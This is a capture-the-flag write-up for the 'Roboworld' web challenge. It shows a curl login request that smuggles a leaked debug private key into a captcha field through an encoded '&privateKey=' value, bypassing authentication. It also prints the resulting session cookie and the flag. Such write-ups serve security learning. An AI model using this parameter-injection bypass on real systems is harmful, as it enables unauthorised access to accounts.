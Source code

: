 [../](../../)

# Roboworld

## web

> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
>
> Can you figure out what's wrong and access the secret files?
>
> [http://challs.xmas.htsp.ro:11000](http://challs.xmas.htsp.ro:11000)
>
> [leak.py](leak.py)

## Solution

When looking into the leaked source code, you can find a debugging `privkey`. When you test some requests to the `/captchaVerify` endpoint with that key, it seems it makes the `captchaUserValue` accept any value. So lets try to inject that private key to the `captcha_verification_value` field:

	$ curl 'http://challs.xmas.htsp.ro:11000/login' --data 'user=backd00r&pass=catsrcool&captcha_verification_value=AAAA%26privateKey=8EE86735658A9CE426EAF4E26BB0450E' -vvv

Yeah it works! The important information of the response are a session cookie and the redirection to that dashboard page:

	Set-Cookie: session=eyJsb2dnZWQiOnRydWV9.XffUxA.M-sXpowWOM2fqtA9vYzHff-wl-Y;
	<p>You should be redirected automatically to target URL: <a href="/dashboard_jidcc88574c">/dashboard_jidcc88574c</a>.  If not click the link.

When we set the cookie and visit the page, there are three links, the last one is a video that shows the flag at the bottom.

flag: `X-MAS{Am_1_Th3_R0bot?_0.o}`